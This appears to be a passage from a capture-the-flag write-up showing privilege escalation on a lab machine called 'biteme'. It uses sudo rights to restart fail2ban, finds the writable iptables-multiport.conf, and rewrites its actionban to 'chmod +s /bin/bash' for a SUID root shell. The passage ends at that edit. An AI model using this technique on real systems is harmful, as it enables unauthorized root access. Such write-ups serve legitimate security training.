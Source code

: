 I'm `fred`!

## fred to root

**Sudo permission:**
```
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```

**User `fred` is able to run `/bin/systemctl restart fail2ban` as root without password, and we can gain root privilege from it**

> Fail2ban is an intrusion prevention software framework. Written in the Python programming language, it is designed to prevent against brute-force attacks. It is able to run on POSIX systems that have an interface to a packet-control system or firewall installed locally, such as iptables or TCP Wrapper. (Source: [Wikipedia](https://en.wikipedia.org/wiki/Fail2ban))

**To do so, I'll:**

- `Find` writable config files:

```
fred@biteme:~$ find /etc -writable -ls 2>/dev/null
   156253      4 drwxrwxrwx   2 root     root         4096 Nov 13  2021 /etc/fail2ban/action.d
   142010      4 -rw-r--r--   1 fred     root         1420 Nov 13  2021 /etc/fail2ban/action.d/iptables-multiport.conf
```

As we can see, **the `/etc/fail2ban/action.d/iptables-multiport.conf` is writable for us.**

**iptables-multiport.conf:**
```
fred@biteme:/etc/fail2ban/action.d$ cat iptables-multiport.conf
[...]
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
[...]
```

Hmm... Since we have access to write stuff into it, **what if it adds SUID sticky bit into `/bin/bash`, instead of executing the `iptables` command when we trigged the `actionban`??**

- Modify the `iptables-multiport.conf`'s `actionban`:

```
actionban = chmod +s /bin/bash
```
